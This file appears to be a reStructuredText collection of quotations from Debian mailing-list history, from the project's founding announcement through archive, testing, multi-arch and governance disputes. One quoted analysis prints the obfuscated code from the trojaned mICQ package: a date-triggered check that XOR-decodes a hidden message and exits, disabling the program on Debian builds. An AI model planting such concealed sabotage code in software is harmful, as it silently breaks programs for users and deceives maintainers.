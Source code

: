 Foundation of Debian:

   This is just to announce the imminent completion of a brand-new Linux
   release, which I'm calling the Debian Linux Release.

   -- `Ian Murdock, 1993-08-16 <https://groups.google.com/groups?selm=CBusDD.MIK%40unix.portal.com&output=gplain>`_

Proposal of the pool-based archive structure:

   A long time ago […] I was on the verge of proposing a radical change in the
   way we handle versioning…

   […]

   The general notion is that all package uploads go into a common pool.
   Scripts on the server routinely build a symlink tree that points to the most
   recent version of each package in the pool, which is the equivalent of the
   current ‘unstable’ tree. In fact, there could even be different flavors of
   instability, with different criteria used by the link tree builder to
   determine which versions to link to for each tree. Trees of symlinks are
   cheap.

   -- `Bdale Garbee, 1998-05-29 <https://lists.debian.org/199805290835.CAA07223@chunks.gag.com>`_

The “testing” distribution proposal:

   I made a relatively thorough proposal for a different approach to handling
   the migrate of a package from an unstable-by-definition upload to a released
   state a while back.

   […]

      Any upload of a package is, by definition, “unstable” until proven
      otherwise.

      Therefore, uploads should *always* go into the unstable tree.

      The process by which a package is “promoted” from unstable through one or
      more stages until it becomes part of a stable release needs to involve
      consistency checking, testing, and enough time elapsed to allow
      confidence to build in the package.

      The promotion criteria should include a guarantee that the release
      candidate never has dependency issues, never has a package version with a
      truly “release critical” bug known at the time of promotion, and so
      forth. Those characteristics will always be part of the unstable tree…
      but should *only* be part of the unstable tree!

   -- `Bdale Garbee, 1999-01-05 <https://lists.debian.org/199901060618.XAA17819@rover.gag.com>`_

The first multi-arch proposal:

   I would love to see Debian adopt a solution that allows use of unmodified
   ia32 (i386 in Debian lingo) packages on ia64 systems… and which is general
   enough to handle the other multi-arch flavors we can anticipate.

   […]

   Of course, doing this is a lot of work. Clearly, other distributions
   supporting ia64 have chosen to take more expedient paths. If there's a good
   hack I haven't thought of that won't make us all ill, I'd be pleased to
   consider it. I'm not thrilled by the path translation on the fly, but it is
   clearly an alternative we could consider, for example.

   I intend for ia64 to be released stable with woody. I would love for the
   ia32 user space “problem” to be resolved cleanly by then, but I'm not
   expecting miracles. If I have to hack something interim while waiting for a
   general solution to be implemented, I can probably live with that.

   -- `Bdale Garbee, 2001-06-04 <https://lists.debian.org/20010604220542.8AD8E35EEE@rover.gag.com>`_

Analysis of the trojaned mICQ package:

   So, basically, what you're saying is that you uploaded a package to Debian
   that included some malicious and obfuscated code from upstream, that neither
   you nor your sponsor […] spotted. The code in question, for those playing
   along at home, is […]::

      #if defined(__Dbn__) && __Dbn__ != -1 && !defined (EXTRAVERSION)
        if (me[0] != 'm' || me[1] != 'a' || me[2] != 'd' || me[3] != 'k' ||
            me[4] != 'i' || me[5] != 's' || me[6] != 's' || me[7])
        if (time (NULL) > 1045000000)
        {
            const char *parts[] = {
                          "\n\n\eX0282nZlv$qf#vpjmd#wkf#nJ@R#sb`hbdf#sqlujgfg#az",
                          "#Gfajbm-#Pjm`f#wkf#Gfajbm#nbjmwbjmfq#jp#f{wqfnfoz#",
                          "vm`llsfqbwjuf/#zlv$qf#bguj`fg#wl#vpf#wkf#afwwfq#rv",
                          "bojwz#sb`hbdf#eqln#nj`r-lqd-#Pjnsoz#bgg#wkf#eloolt",
                          "jmd#ojmf#wl#zlvq#,fw`,bsw,plvq`fp-ojpw#wl#wqb`h#pw",
                          "baof#ufqpjlmp#le#nJ@R9\eX3n\ngfa#kwws9,,ttt-nj`r-lqd",
                          ",gfajbm#pwbaof#nbjm\n\eX0282nWl#wqb`h#@UP#pmbspklwp/",
                          "#bgg9\eX3n\ngfa#kwws9,,ttt-nj`r-lqd,gfajbm#wfpwjmd#n",
                          "bjm\n\eX0282nPlvq`f#sb`hbdfp#nbz#af#qfwqjfufg#pjnjob",
                          "qoz-\eX3n\n\n                                        " };

            char buf[52];
            int i, j;

            for (i = 0; i < 10; i++)
            {
                for (j = 0; j < 50; j++)
                    buf[j] = parts[i][j] > 30 ? parts[i][j] ^ 3 : parts[i][j];
                buf[j] = '\0';
                M_print (buf);
            }
            exit (99);
        }
      #endif

   -- `Anthony Towns, 2003-02-14 <https://lists.debian.org/20030213165225.GB7379@azure.humbug.org.au>`_

BTS version tracking announcement:

   A frequently requested feature for the bug tracking system in recent years
   has been the ability to track which bugs apply to which distributions, so
   that, eg, maintainers and others can tell which bugs that have been fixed in
   unstable still apply to packages in testing or stable.

   This has now been implemented.

   It is quite a far-reaching change, and you will probably want to adjust the
   way you deal with the BTS as a consequence.

   -- `Colin Watson, 2005-07-18 <https://lists.debian.org/20050718110629.GA729@riva.ucam.org>`_

Debian X Strike Force member defending the decision to make the X server depend on HAL:

   THIS IS NOT A FUCKING VOTE.

   -- `Julien Cristau, 2009-04-15 <https://lists.debian.org/1239821223.25727.25.camel@radis.liafa.jussieu.fr>`_

Jörg Schilling's schilyutils REJECTed from the NEW queue:

   […] this reject is the conclusion of a long and very intricate relation
   between upstream and the FLOSS community. As the past has shown there is a
   lot of very heated discussions ongoing, sometimes downright to threats of
   law suits, and we fear that even your offer to act as proxy between the
   Debian project and upstream won't prevent discussions like happened in the
   past.

   -- `Debian FTPMasters, 2010-02-24 <https://lists.alioth.debian.org/pipermail/debburn-devel/2010-February/000765.html>`_

Extreme anger about init system call-for-votes:

   This unannounced CFV is an abuse of process. I am EXTREMELY ANGRY
   and I will sponsor any GR that seeks to overturn it.

   -- `Ian Jackson, 2014-02-09 <https://lists.debian.org/21239.54254.395132.572483@chiark.greenend.org.uk>`_

.. vim:ts=3 sts=3 sw=3 et
